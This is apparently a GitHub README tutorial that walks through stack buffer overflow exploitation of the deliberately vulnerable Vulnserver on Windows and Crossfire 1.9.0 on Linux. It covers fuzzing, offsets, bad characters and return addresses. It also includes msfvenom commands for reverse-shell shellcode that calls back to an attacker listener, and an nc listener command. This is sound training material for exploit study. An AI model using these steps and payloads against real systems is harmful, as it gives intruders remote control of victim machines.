




# README

This page contains 2 examples. One for Windows and other for Linux

# 1. BUFFER OVERFLOW IN WINDOWS

The goal of this text is to explain how to complete a buffer overflow (BoF) attack by building a PoC in python and using it to figure out the final BoF that let us exploit the vulnerable application.

A very good example with details and a vulnerable application ready to test: https://github.com/justinsteven/dostackbufferoverflowgood
Great articles explaining the process and how to use SPIKE:

· How spike works: [https://resources.infosecinstitute.com/topic/intro-to-fuzzing/](https://resources.infosecinstitute.com/topic/intro-to-fuzzing/)

· How to automatise the process: [https://resources.infosecinstitute.com/topic/fuzzer-automation-with-spike/](https://resources.infosecinstitute.com/topic/fuzzer-automation-with-spike/)

· Good explanation: [https://hex-men.tech/vulnserver\_buffer\_overflow/](https://hex-men.tech/vulnserver_buffer_overflow/)

· Hack the box training: https://academy.hackthebox.eu/course/preview/stack-based-buffer-overflows-on-windows-x86/debugging-windows-programs

Here I'm going to explain the process to follow, but mainly the concepts we need to understand to complete a BoF attack.

I created the script ExploitServerEIP.py that contains many of the required steps to be executed from the client. Each part is commented ('''), so in order to run the phase 1 for example, we need to remove the ''' at the beginning and the end of the section and keep the comments for the remaining phases.

We need a Kali Linux / any Linux used to run the scripts and to get the reverse shell once we have completed the attack

We need a Windows system including the Vulnserver ([http://sites.google.com/site/lupingreycorner/vulnserver.zip](http://sites.google.com/site/lupingreycorner/vulnserver.zip)) and the Immunity debugger installed ([https://www.immunityinc.com/products/debugger/](https://www.immunityinc.com/products/debugger/))

**Process**

· Start the service / application you want to test in the server (windows). In this case we are working with vulnserver.exe that runs in port 9999

· Start the immunity debugger in the server and attach the vulnserver.exe application (File / Attach and select the vulnserver.exe process). Sometimes it is required to hit F9 to continue runnning the process as normally it paused the execution. In the right-down corner the debugger shows the process status (Running / Pause)

· In the client (Kali), start Wireshark to capture the traffic to understand how the information is send / received

· Start a connection to the server and run some commands to understand how it works:

           nc -nv [IPWINDOWS] 9999  

#In the answer the server indicates the use of HELP to get additional info.

#There are many commands we can execute HELP, STATS, RTIME, LTIME, ...

· Create a SPIKE script to send the commands with fuzzed data. It is simple as if we understand what information should be sent always and what we can manipulate, the resulting script is like this:

           printf("HELP 0help.spk : "); //print to terminal command and filename_
           s_readline(); //print received line from server_
           s_string("HELP "); // send "HELP " **command** to the program. Requires a space as the fuzz will go after it_
           s_string_variable("INJECTION_POINT"); //send fuzzed string. At the end, the resulting string sent to the server is HELP INJECTION\_POINT_

#Create a spk file for each commands supported by the server: STATS, RTIME, etc. Assign a sequence number to the filename so when it is restarted, it could continue from the last tested and not from the beginning.

#For each command wanted to be tested a separate SPIKE script is required. If there are multiple fields in the same page or call to the server, then they can be tested in one script. But different values in the same field / command requires a script for each one.

· Run the SPIKE script to look for overflows:

           generic_send_tcp [ip] [port] [script.spk] 0 0

Spike send a predeterminate list of strings each time replacing the string variable "INJECTION\_POINT" by predetermined injection chars already preconfigured in spike by default. The 0 indicates where to start from the predetermined file and where to stop. To run all by default use 0 0

Check how the server goes in the debugger to identify any issue / crash

Continue playing with the scripts.

You can create a shell / wrapper file to call the generic\_send\_tcp with each script. This shell should identify when the server stops working.

· I used a perl script called fuzzingall.pl copied from the article but it can be a .sh file

· Run it: 
           ./fuzzingall.pl \[ip\] \[port\] 0 0 0

· To start in any specific (6): 
           ./fuzzingall.pl \[ip\] \[port\] 6 0 0

· **Identify what is causing the crash**

Check the network capture and the scripts to validate what input caused the server to crash. Restart the server and run the specific call with the string that caused the BOF.

I created a python file with all the phases we need to run (ExploirServerEIP.py). In this case, use the phase 1 to test this part.

Based on the identification of the command causing the crash, try to use the content into the python script part 1 to validate it is the right one. If putting the same information the server crash, then try to identify the approximate length causing the crash with the script part 2.

The most important part to have in mind is to identify if the crash give us a way to manipulate the memory registers. If so, this means **we can inject a shellcode and make the program to go to the place in memory where the shellcode is to exploit the server.**

We need to identify what information is stored in each register at the crash moment to see how can we manipulate the string we sent. This will let us build the exploit in the right way.

· **Identify the offset**

Identify the exact size of the buffer where the program crashes by creating an special string with metasploit framework pattern\_create (locate pattern\_create). In my case I had to run it in this way:

           /opt/metasploit-framework/embedded/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 5000
           In other Kali: 
           msf-pattern_create -l [LENGHT]
           #This can also be generated using mona.py in Immunity Debugger but I will not show here the details.
           #This can be done in x64dbg by running  ERC --pattern c 5000
           #Phase 3 of the python script help us to identify this task.

Restart the vulnserver in windows from the debugger (ctrl-F2) and run the python script Phase 2 using the pattern we got. Once the server crash, check the value in the registers (right side in immunity), specially the EIP value. In this case it is **386F4337**

Calculate the offset for this EIP value using

           /opt/metasploit-framework/embedded/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -l [length] -q **386F4337**
           #In other kali: msf-pattern\_offset -l [length] -q 386F4337
           => [*] Exact match at offset 2003
           # In ERC the command ERC --pattern o 8oC7 #In python b"\x38\x6F\x43\x37" to get 8oC7

Confirm the EIP can be manipulated by us:

Using the Part 3 of the python we can select the value we want to left in the EIP based on the identified offset. Run the script and validate we have control of the EIP.

· **Identify "bad characters" not accepted by the application.**

Part 4 of the script checks if the application has some "bad characters".

After running the exploit, observe the ESP value (right pane) and the stack (right down) to validate all the "badchars" sent were included. They should be observed as a sequence (04030201 ...). We can also observe the details in the down-left side by right-clicking the ESP or stack and selecting follow in dump to see it better. If there are some bad chars, then the hexa value will not be showed in the sequence. We need to remove it from the badchars string and run it again. In this way we can identify and remove all bad chars.

· **Detect the right address to use in the EIP**

In this specific case, we observed that the we can left anything we want into the ESP. So we can create a reverse shell string and replace the badchar string by this value. This part will be completed in the next part.

Now that we have where to left the shellcode, we need to instruct the program to go to that place (ESP). So now we need to send the instruction JMP ESP to the program. How? As we can manipulate the EIP, we need to look where we can find a JMP ESP instruction and point the EIP to that address.

We will use mona.py in Immunity Debugger to complete this part.

To detect if there are unprotected modules we can use to get an address with this operation we need to use mona.py. It works with Inmmunity Debugger and WinDBG ([https://github.com/corelan/mona](https://github.com/corelan/mona)). Download and copy the file into Immunity Debugger\\PyCommands

For x64dbg is more complicated: [https://github.com/x64dbg/mona](https://github.com/x64dbg/mona). However, there is another maintained pluggin in https://github.com/Andy53/ERC.Xdbg/releases that just require to unzip it in the pluggins directory. 

More details about mona: [https://www.corelan-training.com/](https://www.corelan-training.com/)

To run mona, in Immunity Debugger run the command in the textbox in the downside of the debugger. Just write:

           !mona modules #In this case essfunc.dll is found or
           ERC --ModuleInfo  #using x64dbg with the ERC pluggin
           # Identify which modules have less protections active from the process running.
           # To know the op codefor JUMP ESP we can use msf-nasm\_shell. Run it and put JMP ESP to identify the op code
           msf-nasm_shell
           >JMP ESP
           #In other Kali is: /opt/metasploit-framework/embedded/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/nasm_shell.rb
           #We got "FFE4"
           # Now we need to look for the instruction JMP ESP ("\\xff\\xe4") in the memory for any of these unprotected module
           # The easiest way is running: # !mona jmp -r esp -cpb "\x00\x0A"   #badchars
           !mona find -s "\\xff\\xe4" -m "essfunc.dll" => -s is the byte string to search for, -m specifies the module to search in
           \#9 occurrences were found.
           #In x64dbg, go to symbols (alt+e), select any of the dll or exe files by double clicking it. Then ctrl+f to search and jmp esp
           #Pick an address that does not contain badchars including 00 or any other previously identified

**625011AF** FFE4 JMP ESP

In this case, we need to put this address (625011AF) in the EIP so the program will go to it and run JMP ESP and then it will start running the shellcode we have there!

· **Generate and run the shellcode**

In a terminal window in Linux run the listener to receive the reverse shell:

           nc -nvpl 443

Now let's prepare the shell. This shellcode should not contain bad chars (if we found any)

Using msvenom in Linux, we can create it without the previously identified badchars. At least \\x00 (null) should be included. -f specifies the language (c, py, pl, ...)

The EXITFUNC=Thread is used to avoid the program to terminate when we finish the shell. This will close only the thread used by the shell.

           msfvenom -p windows/shell\_reverse\_tcp LHOST=\[IP KALI\] LPORT=443 EXITFUNC= thread -f py -e x86/shikata\_ga\_nai -b "\\x00"

Now we have all the pieces we need:

· Offset (2003 in this case)

· Address we want to overwrite in the EIP (observe we need to include it in little indian notation for x86: "\\xaf\\x11\\x50\\x62". In python, there is a method called pack to convert to little indian in the struct library: pack('<L', 0x625011af)

· the pattern string (shellcode) we want to inject and run.

Run the python script Part 5 to inject the shellcode.

We need to add some nops before the shell as sometimes the execution of the shell modifies some parts that could affect it. Sometimes 10 or 12 or 16 could be ok, but it is something to play with if the shell did not start.

To be sure the shell is loaded in the ESP, we can create a breakpoint in the address where the JMP ESP is located (625011AF) so the program will pause in that point. We can observe the ESP value and the memory to validate the shellcode is there and it is complete.

After running it we got the shell ...

# 2. BUFFER OVERFLOW IN LINUX**

We will use Crossfire 1.9.0 as it is vulnerable. It has a network-based BoF when strings of more than 4000 bytes in the setup sound command

We will use the **Evans Debugger (EDB)** (Not in Raspberry PI as this is for x86)

Memory protection techniques in Linux: Data Execution Prevention (DEP), Address Space Layout Randomization (ASLR), and Stack Canaries. To avoid them, we need to use a Crossfire compiled without stack-smashing protection (stack canaries), ASLR, and DEP.

To crash the app we can use a payload like:

crash = "\\x41" \* 4379

buffer = "\\x11(setup sound " + crash + "\\x90\\x00#"

To identify that payload, we should follow the same process to create the spike scripts and start playing with them to identify where the app is vulnerable.

**Testing the crash:**

The process is almost the same than in Windows but using edb debugger instead of immunity in this case.

In the python script the test 6 is used to validate the application crashes when receiving this information.

After crashing the application, we should observe the register values to identify how can we continue the exploit.

In this case we can observe:

- ESP points to the last part of the string we sent (position 4363 to 4369). This left only 7 bytes to use. The shell code cannot be injected there

- However, we can observe the EAX contains the memory position where the buffer we have sent starts: ("setup sound AAAAAAA...").

Analysing this data, we can see there are 12 bytes (including the space) before the part we have control of (buffer) and we have control over the EAX.

What we need to do in this case is:

- Use the 7 bytes we have control of that are pointed by ESP (position 4363 to 4369) to inject something that let us go to EAX + 12

- This can be done by injecting ADD EAX,12 and JMP EAX in the last 7 bytes.

To get the opcodes for this operations we can use msf-nasm\_shell:

    msf-nasm\_shell
    \>add eax,12    \=> 83C00C add eax,byte +0xc
    \> jmp eax      \=> FFE0 jmp eax
    
    \#This is "\\x83\\xc0\\x0c\\xff\\xe0". It uses only 5 bytes from the 7 available so we can add 2 nops at the end.

We need to inject this opcodes in the part where the ESP is pointing to.

**Testing the ESP value**

In the python script 7 I created a PoC to validate we can control ESP and AIX as analysed.

After running we can observe EAX (already in control in test 6) and ESP are controlled by us and we injected the desired values.

**Checking badchars**

Before completing the shellcode, it is important to check badchars in the same way than in windows. By sending all the possible chars and observing the stack to validate the information is received in a good way. If someone is missing, remove it and test it again until we have all the possible values sent in the stack without problem.

The test 8 includes this part. Including the buffer fulfilling with A's. That's important as we should maintain the same buffer size to keep the registers with the values we want.

**Finding the return address and Injecting the Shellcode**

So the last part is to control the EIP. We need it to point to an address with the instruction JMP ESP

EDB debugger comes with the a plugging called Opcodesearcher (Pluggins -> OpcodeSearch or ctrl+o)

Looking for jump equivalent ESP -> EIP and selecting any of the process we can find one at address 08134596 (\\x96\\x45\\x13\\x08 in little indian)

    eip = b**"**\\x96\\x45\\x13\\x08**"**

Now we need to create the reverse shell for linux (-f to define language python in this case, -v name of the variable to assign the shellcode, -b list of badchars)

    msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=\[KALI\_IP\] LPORT=443 -b "\\x00\\x20" -f py -v shellcode

In the python script 9 is used to complete this test
